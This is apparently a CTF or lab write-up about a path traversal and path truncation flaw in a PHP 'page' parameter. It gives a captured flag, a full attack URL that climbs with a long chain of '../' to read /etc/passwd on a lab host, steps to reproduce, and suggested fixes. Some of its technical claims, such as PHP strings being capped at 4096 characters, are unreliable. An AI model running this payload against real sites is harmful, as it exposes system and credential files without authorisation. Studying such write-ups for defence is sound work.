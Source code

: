 # Path Traversal (+ Path Truncation)

## Flag

b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0

## Description

etc/passwd is a common file (in unix systems) which contains the machine credentials, the etc folder is usually directly inside the root folder.
With Path Traversal, we backtrack inside the filesystem (which is actually not really possible since index.php is in the root folder)
With Path Truncation, we bypass an eventual extention filter (Like concating .php) by sending a 4096 char string.
Php strings can only contain 4096 chars, so a string longer than that will be truncated to 4096 chars.

## URL

https://192.168.56.101/index.php?page=../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../etc/passwd

## Steps To Reproduce

Without script, go to this web site : https://www.charactercountonline.com/
Then write etc/passwd, and add combinaisons of `../` before until it reaches exactly 4096 chars.

## Why is it dangerous ?

It's a free ticket for other Local File Inclusions

## Possible fixes

- Avoid user input in include() or require() functions
- Use int indexes for those ressources and access it using a local database (For exemple a raw key/value dict linking an index and a URI)

## Resources

- https://www.charactercountonline.com/
